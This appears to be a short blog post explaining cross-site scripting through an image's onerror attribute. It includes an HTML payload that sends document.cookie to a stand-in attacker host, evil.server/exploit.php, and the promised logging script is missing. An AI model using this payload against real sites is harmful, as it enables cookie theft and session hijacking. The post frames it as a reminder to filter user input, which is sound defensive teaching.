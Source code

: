 ```yaml
---
layout: post
title: XSS with Img OnError attribute
tags:
- javascript
- PHP
- security
---
```

So much of my time is spent worrying over the src or href tags on images and links - that I sometimes forget about the other attributes.

Imagine being able to make an image which has no black-flagged content in the src but yet can still make a remote request, logging the user's cookie information?  That's right - this can be done - using the `onerror` attribute of an image.

What you need to do is to create an image link that is obviously broken or empty.  Then, javascript handles such events by throwing an error for that element.  Add an item to the `onerror` attribute to request a remote URL as your images src - which you add on document.cookie.  The remote script logs all requests, and then displays an image.

Check out the code below:

Source page without proper filtering:

```html
<html>
  <body>
    <h1>test</h1>
    <h2>asdf</h2>
    <img onerror="this.src='http://evil.server/exploit.php?'+document.cookie" src=""></img>
  </body>
</html>
```

Then, on `evil.server`, place your image.  Finally, top it off with the following code in **`exploit.php`**

Easy as that.  Just another reminder to properly filter your use submitted content.
